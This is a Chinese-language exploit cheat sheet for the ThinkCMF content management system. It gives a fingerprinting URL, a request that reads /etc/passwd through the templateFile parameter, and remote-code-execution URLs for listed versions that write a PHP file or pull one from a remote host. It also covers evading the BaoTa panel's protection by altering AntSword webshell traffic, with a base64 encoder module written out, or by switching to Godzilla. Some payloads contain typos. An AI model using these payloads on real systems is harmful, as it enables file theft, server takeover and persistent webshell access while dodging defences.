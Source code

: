 # ThinkCMF——RCE

---

## 特征

```
/index.php?g=admin&m=pulic&a=login
```



## 文件读取

```
http://127.0.0.1/?a=display&templateFile=/etc/passwd
```

---



## 远程代码执行

```
影响版本：
	ThinkCMF X1.6.0
	ThinkCMF X2.1.0
	ThinkCMF X2.2.0
	ThinkCMF X2.2.1
	ThinkCMF X2.2.2
	ThinkCMF X2.2.3
```

```
远程代码执行 Getshell：（执行成功页面空白，直接访问看是否生成对应php即可）

写入php文件：file_put_contentc('test.php','<?php phpinfo();?>')
http://127.0.0.1/?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contentc('test.php','<?php phpinfo();?>')</php>

也可复制远程php文件：copy('https:/xxxx/test.php','test.php')
http://127.0.0.1/?a=fetch&templateFile=public/index&prefix=''&content=<php>copy('https:/xxxx/test.php','test.php')</php>
```

绕过Bt（流量加密）

- 改蚁剑流量

- - user-agent 

- - 编码器

    ```
    'use strict';/** @param  {String} pwd   连接密码* @param  {Array}  data  编码器处理前的 payload 数组* @return {Array}  data  编码器处理后的 payload 数组*/module.exports = (pwd, data, ext={}) => {
    
      data[pwd] = Buffer.from(data['_']).toString('base64');
    
      delete data['_'];
    
      return data;}
    ```

- 使用哥斯拉
